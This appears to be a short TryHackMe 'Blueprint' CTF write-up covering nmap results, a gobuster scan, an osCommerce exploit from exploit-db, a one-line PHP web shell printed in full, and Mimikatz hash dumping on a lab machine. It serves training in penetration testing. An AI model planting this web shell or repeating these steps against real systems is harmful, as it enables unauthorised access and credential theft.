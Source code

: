 # 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;

{% code title="shell.php" %}
```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Use Mimikatz to dump the hashes and read the root flag.

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

